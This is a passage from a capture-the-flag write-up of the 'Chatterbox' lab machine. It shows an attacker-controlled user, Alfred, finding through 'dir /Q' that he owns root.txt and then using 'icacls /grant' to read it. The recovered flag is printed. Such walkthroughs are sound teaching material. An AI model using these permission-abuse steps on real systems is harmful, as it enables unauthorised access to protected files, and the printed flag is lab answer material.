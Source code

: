 {% endhighlight %}

On the other hand, Alfred doesn't have any permission for "root.txt"
{% highlight shell %}
C:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>
{% endhighlight %}

However, by the following command, we can figure out that root.txt is owned by Alfred.<br>
I was wondering how "Q" is possible to be "ownership" but that's how it is.
{% highlight shell %}
C:\Users\Administrator\Desktop>dir /Q
dir /Q
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of C:\Users\Administrator\Desktop

12/10/2017  06:50 PM    <DIR>          BUILTIN\Administrators .
12/10/2017  06:50 PM    <DIR>          NT AUTHORITY\SYSTEM    ..
12/10/2017  06:50 PM                32 CHATTERBOX\Alfred      root.txt
               1 File(s)             32 bytes
               2 Dir(s)  17,933,189,120 bytes free

C:\Users\Administrator\Desktop>
{% endhighlight %}

According to the fact, we can change the file permission of "root.txt" to read it.
{% highlight shell %}
C:\Users\Administrator\Desktop>icacls root.txt /grant alfred:(F)   
icacls root.txt /grant alfred:(F)
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Alfred:(F)
         CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>type root.txt
type root.txt
a673d1b1fa95c276c5ef2aa13d9dcc7c
C:\Users\Administrator\Desktop>
{% endhighlight %}
